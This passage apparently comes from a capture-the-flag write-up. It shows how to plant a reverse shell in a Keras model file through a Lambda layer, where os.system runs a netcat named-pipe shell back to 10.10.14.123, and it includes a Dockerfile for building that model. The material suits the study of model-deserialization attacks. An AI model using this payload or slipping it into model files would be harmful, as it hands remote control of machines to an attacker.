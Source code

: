 ```python
# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

I will spawn a reverse shell by compiling my malicious model. I’ll use the provided Dockerfile by the target but modify it with my malicious script:

```docker
FROM python:3.8-slim

WORKDIR /code

# Copy the malicious.py script into the container
COPY malicious.py .

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

With this model generation:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.123 1223 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

which allows me to spawn a reverse shell.

I build the Docker:
`docker build -t my-tf-image .`
